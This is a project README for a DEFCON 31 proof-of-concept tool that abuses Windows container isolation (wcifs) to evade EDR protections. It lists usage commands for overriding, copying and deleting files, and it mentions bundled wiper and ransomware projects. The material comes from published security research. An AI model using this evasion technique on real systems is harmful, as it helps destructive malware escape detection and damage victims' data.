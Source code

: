 
# ContainYourself
A PoC of the ContainYourself research, presented on [DEFCON 31](https://forum.defcon.org/node/245719).
This tool abuses the Windows containers framework to bypass EDR file-system-based malware protection, file write restrictions, and ETW-based correlations.

This repo contains a static library that implements the research findings, a PoC tool that utilizes the library, and a wiper & ransomware projects.

https://www.deepinstinct.com/blog/contain-yourself-staying-undetected-using-the-windows-container-isolation-framework

## Installation
Make sure to clone the repository and its submodules:

    git clone --recursive git@github.com:deepinstinct/ContainYourself.git

## Usage

    Usage: ContainYourselfPoc.exe [--command]
    
    Valid commands:
            --set-reparse [override|link] - Set wcifs reparse tag
            --remove-reparse [override|link] - Remove wcifs reparse tag
            --override-file - override a file using wcifs
            --copy-file - Copy a file using wcifs
            --delete-file - Delete a file using wcifs
            --create-process - Create process from an image file path using NtCreateUserProcess
    Commands arguments:
            --source-file  - operation full source file (relative to volume only when using with [--copy-file])
            --target-file  - operation target file (relative to volume)
            --source-volume  - operation source volume, without a trailing backslash (default is C:)
            --target-volume  - operation target volume, without a trailing backslash (default is C:)
    
    Examples:
            ContainYourselfPoc.exe --set-reparse override --source-file C:\temp\calc.exe --target-file \temp\malware.exe
            ContainYourselfPoc.exe --remove-reparse --source-file C:\temp\calc.exe
            ContainYourselfPoc.exe --override-file --source-file C:\temp\calc.exe
            ContainYourselfPoc.exe --copy-file --source-file temp\document.docx --target-file Documents\document.docx --target-volume E:
            ContainYourselfPoc.exe --delete-file --source-file C:\temp\document.docx

## Disclaimer

Every security product has the capability to incorporate its unique algorithm designed to counter ransomware and wiper threats. It cannot be guaranteed that this proof-of-concept will successfully circumvent every existing protection solution available.

## Credits

* [Daniel Avinoam](https://twitter.com/daniel_avinoam)

